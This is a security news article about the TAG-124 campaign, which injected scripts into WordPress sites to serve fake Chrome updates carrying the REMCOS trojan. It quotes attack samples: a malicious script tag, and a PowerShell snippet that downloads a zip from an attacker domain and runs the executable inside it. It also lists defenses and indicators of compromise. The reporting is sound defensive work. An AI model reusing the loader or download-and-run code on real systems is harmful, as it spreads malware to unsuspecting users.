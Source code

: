 ```yaml
---
title: "TAG-124 Hacked 1000+ WordPress Sites To Embed Payloads"
date: 2025-02-01
---
```


A sophisticated cyber campaign orchestrated by the threat group TAG-124 has compromised over 1,000 WordPress websites to deploy malicious payloads.

The operation leverages a multi-layered Traffic Distribution System (TDS) to infect users with malware, demonstrating advanced evasion tactics and infrastructure management.

TAG-124’s infrastructure consists of compromised WordPress sites injected with malicious JavaScript to redirect visitors to attacker-controlled payload servers.

<figure>

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjnDd8-Ea0EnyKbDJOKHT0OenwaH6bXqRVvd7AR2FnxoP_Lt0K-lV2yzTuEhL_0FBPhuhK2vzdC_9brJfvBcPymBGDRokaxIJPbhsdft8fGhC-bbhvagwXQbUVLOIqkAS8Y1fsHq9JnUhcQazOpYgHChqXkPsR93Pw2Tdojrthw2aVNfJjysHwTrMG-0EI/s16000/TAG-124's%20high-level%20infrastructure%20setup%20(Source%20-%20Recorded%20Future).webp)

<figcaption>

TAG-124’s high-level infrastructure setup (Source – Recorded Future)

</figcaption>

</figure>

These servers host malware disguised as legitimate software updates, such as fake Google Chrome updates.

<figure>

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhYPGxVf7ieY_adZzwKP-LvbN0NfAyzHGtB1VM7aPaewwbVDW6UmQDEOc6Cq0N7te3fpr6xuK3cqc19w7TrAChunBE4qTH4xW6AM8PDx-tn0RlslsQLcSnb2iez_VHKmje2mmDpLPALBpnwk7TaY2VCUN9Z0FJslDRYVdgnYis3zxCGakMSgUL_V1wqmwo/s16000/Fake%20Google%20Chrome%20update%20variant%201%20(left)%20and%202%20(right)%20(Source%20-%20Recorded%20Future).webp)

<figcaption>

Fake Google Chrome update variant 1 (left) and 2 (right) (Source – Recorded Future)

</figcaption>

</figure>

A central management panel allows attackers to control and update URLs, logic, and infection tactics, enabling dynamic and adaptive attack strategies.

<figure>

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilBsT726m6dmQroMgA6sG-PB3dY6TAQ3W8s2C2__gGuq2FGXjo6Nc5YAlmXOK5maKMWcLkU81n536p7BLeBpEDPW2NZLSpvQX5YnZzbZqVh0sR5frJZvbdwgdAYkWnS40pEbt02vW9dbjP_EaYstVAf3BcqgfjA6DU-Ueq1Zuz9PC8D6zAuNM9QfejFSI/s16000/Google%20Chrome%20fake%20update%20landing%20page%20on%20update-chronne%5B.%5Dcom%20(Source%20-%20Recorded%20Future).webp)

<figcaption>

Google Chrome fake update landing page on update-chronne\[.\]com (Source – Recorded Future)

</figcaption>

</figure>

Researchers at Insikt Group, Recorded Future’s threat research division noted that the attack begins when users visit compromised WordPress sites embedded with malicious scripts like the following:-

```
<script async="" src="https://vicrin[.]com/metrics.js"></script>
```

This script dynamically loads additional resources from attacker-controlled domains. TAG-124 frequently changes file names (e.g., `metrics.js`, `hpms1989.js`) and URLs to evade detection.

## **Payload Delivery**

Visitors meeting specific conditions (geolocation or browser type) are redirected to fake landing pages mimicking legitimate software updates. For instance:-

```
<a href="https://update-chronne[.]com/Release.zip">Update Chrome</a>
```

The downloaded file, `Release.zip`, contains malware such as the REMCOS Remote Access Trojan (RAT). A PowerShell script hosted on the same domain automates the malware installation:

```
$webClient = New-Object System.Net.WebClient
$url1 = "https://update-chronne[.]com/Release.zip"
$zipPath1 = "$env:TEMPmgz.zip"
$webClient.DownloadFile($url1, $zipPath1)
Expand-Archive -Path $zipPath1 -DestinationPath "$env:TEMPfile"
Start-Process -FilePath "$env:TEMPfileSet-upx.exe"
```

TAG-124 employs advanced techniques such as:-

1. **ClickFix Technique**: Displays dialogs prompting users to execute pre-copied commands.

4. **Dynamic URL Updates**: Regularly changes URLs and filenames on compromised sites.

7. **Conditional Logic in TDS**: Filters traffic based on visitor attributes to optimize infections.

The campaign has been linked to multiple ransomware groups, including Rhysida and Interlock, which utilize TAG-124’s infrastructure for their initial infection chains. The shared use of this TDS highlights collaboration among cybercriminal groups.

To protect against similar attacks, keep WordPress core, plugins, and themes updated to patch known vulnerabilities, and regularly scan for unauthorized JavaScript injections.

Implementing Web Application Firewalls (WAFs) helps block malicious traffic targeting vulnerable endpoints, while educating users about the risks of downloading software updates from unverified sources enhances overall security.

## **Indicators of Compromise (IoCs)**

Key domains and IPs used in the attack include:-

- Domains: `vicrin[.]com`, `update-chronne[.]com`

- IPs: `146.70.41[.]191`, `45.61.136[.]67`

Compromised WordPress sites include high-profile domains such as: `www[.]ecowas[.]int` and `www[.]reloadinternet[.]com`.

**`Collect Threat Intelligence with TI Lookup to Improve Your Company’s Security - Get 50 Free Request`**

The post TAG-124 Hacked 1000+ WordPress Sites To Embed Payloads appeared first on Cyber Security News.

Go to Source
